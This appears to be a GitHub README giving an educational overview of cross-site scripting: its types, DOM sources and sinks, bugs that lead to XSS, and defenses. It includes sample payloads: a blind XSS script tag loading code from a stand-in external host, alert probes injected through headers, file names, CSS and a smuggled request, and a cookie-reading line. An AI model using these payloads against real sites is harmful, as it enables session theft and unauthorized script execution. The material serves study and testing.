 # XSS-reserch
A research related to xss vulnerability
XSS (Cross-Site Scripting) vulnerability refers to code injection where hackers are able to inject malicious code into web pages or other web applications. These codes may include JavaScript, HTML, or other programming languages. An XSS vulnerability allows hackers to steal sensitive user information, steal user sessions, or perform unauthorized operations.

XSS vulnerability is divided into several categories:

    stored
    reflected
    blind
    self
    DOM
    
Stored xss
This type of attack is one of the worst types of XSS attacks, where the hacker permanently places his code on the victim's website so that he can use it permanently 


Reflected xss
This type of attack, which is also the most common XSS attack, the intruder finds temporary security holes in the website and implements his goals.
For example, if the site has a hole in the search section, the hacker can enter the desired code and provide other users with the address of the vulnerable page using shortened links.

DOM-xss
DOM XSS is an advanced type of XSS attack that allows an attacker to inject malicious scripts along with data sent to the Document Object Model (DOM). The data is then read by the web application and transferred to the browser.
In JavaScript, sinks refer to places that receive and use external data. Generally, sinks are points in a program or web page where input data is used, and if the input is not properly validated, it can lead to security vulnerabilities.
For example, functions like innerHTML, eval, setAttribute, etc. are common sinks in JavaScript. These functions can directly or indirectly receive external data and use them in a web page or program. If the inputs to these functions are not properly validated, hackers may be able to inject malicious code as inputs to these functions and have them executed in users' browsers.
On the other hand, sources in JavaScript refer to places that generate or provide external data. Generally, sources are points in a program or web page that produce external data.
So, in summary, DOM XSS occurs when a JavaScript source accepts user input and passes it to another function that may execute it as an unsafe sink.

Source

    document.URL
    document.documentURI 
    document.URLUnencoded 
    document.baseURI 
    location 
    document.cookie 
    document.referrer 
    window.name 
    history.pushState 
    history.replaceState
    
sink

    document.write()
    window.location
    document.cookie
    eval()
    document.domain
    WebSocket()
    someElement.src
    postMessage()
    setRequestHeader()
    FileReader.readAsText()
    ExecuteSql()
    sessionStorage.setItem()
    document.evaluate()
    JSON.parse()
    someElement.setAttribute()
    RegExp()

Blind xss
Blind XSS vulnerability is a type of Persistent XSS vulnerability. This vulnerability occurs when the penetration test input is stored on the web server and executed by a script in another part of the application or in another application.
Payload

    "><script src=https://hello.xss></script>


self-xss
This vulnerability is implemented through social engineering attacks that force the victim to enter malicious code into their console 

  
-------------------------------------------------------

Vulnerabilities that convert to xss:

    css injection 
    html injection 
    clickjacking 
    host header injection 
    Request smuggling 
    File Upload

css injection

CSS Injection Vulnerability means injecting malicious CSS code into web pages or web applications. This vulnerability allows hackers to inject malicious CSS code into the page and make changes to the appearance and display of the page. These codes may include changing colors, fonts, hiding elements, and other stylistic changes, or even the vulnerability can be converted to xss.
Payload:

     body {
           background-image: url('javascript:alert("origin")');
     }


HTML injecton

HTML Injection vulnerability means injecting malicious HTML code into web pages or web applications. This vulnerability allows hackers to inject malicious HTML code into the page and make changes to the structure and display of the page. These codes may include adding new HTML elements, changing content, and hiding elements

XSSJacking

If our target has a clickjacking vulnerability, a self xss attack can be executed
Clickjacking vulnerability occurs when the website has used the iframe tag but has not secured it with the X-Frame-Option header.

XSS via to HOST header injection

Attacks that include direct injection of the payload into the Host header are called Host header injection attacks, which can sometimes be converted to xss.
Payload

    X-forwarded-host: "><script>alert(origin)</script>

Xss via upload file

There are two modes for xss in upload file
1_ Through the file name
Payload

    "><img src=x onerror=alert(origin)>.png

2_ Making changes in the content of the file   

Request smuggling to xss

The vulnerability of request smuggling can be converted to xss
for example :

    POST/HTTP/1.1
    Host: hacker
    Content-Length: 150 
    Transfer-Encoding: chunked

    0

    GET /hello
    user-agent: "><script>alert(origin)</script>
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4

    X = 1
-------------------------------------------------------
xss exploit
  
Stealing Cookies:

    alert(document.cookie) 
    
open redirect:

    location.replace(http://......)
    
-------------------------------------------------------
Methods to prevent xss vulnerability :

    HttpOnly 
    CSP
    x-xss-Protection
    Filter

HttpOnly

http-only cookies, the thing about these cookies is that the browser prevents them from being read by javascript.
HttpOnly can be bypassed through phpinfo

CSP

Content Security Policy or CSP is a large new HTTP header that controls where a browser is allowed to load content and what type of content it is allowed to load to prevent attacks like XSS.

x-xss-protection

This header helps us to prevent the occurrence of xss vulnerability

Filter

Characters can be filtered with the help of some functions such as htmlspecialchars

